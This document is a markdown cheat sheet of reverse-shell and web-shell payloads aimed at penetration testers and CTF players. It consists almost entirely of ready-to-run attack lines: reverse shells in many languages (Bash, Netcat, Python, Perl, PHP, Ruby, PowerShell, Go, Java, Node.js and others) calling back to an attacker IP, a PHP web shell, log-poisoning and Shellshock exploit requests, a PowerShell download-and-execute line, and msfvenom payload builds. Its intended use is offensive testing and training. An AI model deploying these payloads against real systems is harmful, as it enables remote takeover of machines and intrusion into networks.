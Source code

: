 # `Reverse Shell (Cheat Sheet)`

**Pentesting - Red Team - CTFs - OSCP**

`Bash`

  ```cmd
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1

  bash -c "bash -i >& /dev/tcp/192.168.1.2/443 0>&1
  
  bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.2%2F443%200%3E%261%22
  ```
  
`PHP Web Shell`

  ```php
  <?php system($_GET['cmd']); ?>
  ```
  
`Web Shell (SSH Log Poisoning) -> /var/log/auth.log`

  ```php
  ssh '<?php system($_GET['cmd']); ?>'@192.168.1.2
  ```

`Web Shell (HTTP User-Agent Log Poisoning) -> /var/log/apache2/access.log`

  ```cmd
  curl -s -H "User-Agent: <?php system(\$_GET['cmd']); ?>" "http://192.168.1.2/browse.php?file=../../../../../var/log/apache2/access.log"
  ```
  
  ```cmd
  User-Agent: <?php system($_GET['cmd']); ?>
  ```
`Shellshock`

  ```cmd
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
  `Shellshock (Internal Server Error)`

  ```cmd
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.sh"
  
  curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  
  curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "http://192.168.1.3/cgi-bin/evil.cgi"
  ```
  
`Netcat`

  ```cmd
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443
  
  nc.exe -e cmd 192.168.1.26 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f
  
  rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.2%20443%20%3E%2Ftmp%2Ff
  ```

`Perl`

  ```cmd
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

`Python`

  ```cmd
   export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

`PHP`
  ```php
  php -r '$sock=fsockopen("192.168.1.2",443);`/bin/sh -i <&3 >&3 2>&3`;'
  
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);system("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);passthru("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
  
  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```
  
`Ruby`

  ```cmd
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

  ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```
  
`Xterm`

   ```cmd
   xterm -display 192.168.1.2:443
   ```
   
`Ncat`

  ```cmd
  ncat 192.168.1.2 443 -e /bin/bash
  ```

`Powershell`

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  
  powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2:8000/reverse.ps1')
  ```

`Awk`

  ```cmd
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```
 `Gawk`
 
 ```cmd
 gawk 'BEGIN {P=443;S="> ";H="192.168.1.2";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
 ```
 `Golang`

  ```cmd
  echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.1.2:443");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
  ```
   `Telnet`

  ```cmd
  rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 443 0/tmp/p
  ```
  ```
  telnet 192.168.1.2 80 | /bin/bash | telnet 192.168.1.2 443
  ```
  
  `Java`

  ```cmd
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
  `Node.js`
  
  ```cmd
  require('child_process').exec('bash -i >& /dev/tcp/192.168.1.2/443 0>&1');
  ```
  
`Groovy (Jenkins)`

  ```cmd
  String host="192.168.1.2";
  int port=443;
  String cmd="cmd.exe";
  Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
  ```


`Msfvenom`

`Php`

```cmd
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

```cmd
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php
```

`War`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```

`JSP`

```cmd
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.jsp
```

`Aspx`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx
```

`Windows`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
 ```
 
`x64`

```cmd
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`x64`

```cmd
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```
`x64`

```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe
```

`Linux`

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```cmd
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`x64`

```cmd
msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```

`Shell (Netcat Listener) [Stageless]`

`x86`

```cmd
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf
```
`x64`

```cmd
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elF
```
